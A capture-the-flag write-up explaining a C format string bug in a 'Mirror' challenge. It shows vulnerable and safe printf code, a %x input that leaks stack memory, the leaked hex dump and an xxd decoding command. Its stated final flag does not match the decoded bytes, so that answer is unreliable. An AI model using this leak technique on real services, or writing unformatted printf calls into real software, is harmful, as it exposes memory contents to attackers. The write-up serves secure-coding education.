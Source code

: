 # Pwn/Mirror
![Head](./assets/head.png)

## Secure Coding
This challange is all about secure coding in C
There is a code hosted in the server that returns excatly the same what we typein.
The code is written in `C` language. Hence can be exploited if secure coding principles are not followd.

## Exploit
Whenever we use the `%x` format specifier, the code expects a string input. If `%x` is not handled properly in the `printf` function, it can lead to a leak of the stack's contents.  

**For example:**

Consider these two code snippets:

**Code 1**
```C
int func(char *user) {
	printf("%s", user);
}
```

**Code 2**
```C
int func(char *user) {
	printf(user);
}
```

The difference between **Code 1** and **Code 2** is that the format specifier `%s` is explicitly defined in **Code 1**. This makes it safe because the function strictly treats the input as a string and prints it accordingly.  

However, in **Code 2**, there is no format specifier. This gives the user direct control over the `printf` function's behavior.  

When `printf` is used with a format specifier (like `%s`), it first looks at the stack to find the data at the memory address specified by the identifier (like `user`) and then returns the appropriate output.  

But in **Code 2**, since no format specifier is defined, an attacker can input `%x` (or multiple `%x`) to instruct the program to interpret and print data from subsequent stack addresses. This reveals memory contents in hexadecimal format, which may include sensitive information.  

This vulnerability arises because the attacker can manipulate `printf` to access and leak data from the stack, bypassing the program's intended behavior.

## %x in Mirror.c
![Mirror1](./asets/mirror1.png)

We can see in the above screenshot that the code is vulnerable to this attack.

I have used a sequence of `%x` till i encounter the `%` character which indicates the end of the output buffer is reached. Doing this, we can get the complete sequence of hexa decimals.
![Mirror2](./assets/mirror2.png)

```bash
64 f05e0580 5a5732ce afff f63d4e2e 65646f43 74736566 7b465443 6d723066 355f7434 6e317237 336c5f67 6c5f6b34 35724568 7d503158 a 1 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

The `hexadecimal` sequence is decoded using the following command
```bash
echo "64 f05e0580 5a5732ce afff f63d4e2e 65646f43 74736566 7b465443 6d723066 355f7434 6e317237 336c5f67 6c5f6b34 35724568 7d503158 a 1 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825" | xxd -r -p
```
```text
d^ZW2ί=N.edoCtsef{FTCmr0f5_t4n1r73l_gl_k45rEh}P1X% x%x% x x% % x%x% x x% % x%x% x x% % x%x% x x% % x%x% x x% % x%% 
```
Remove all the nonsence and reverse 4 characters at a time to get the flag

```flag
CodefestCTF{DOY!}
```
## References
https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=87152038
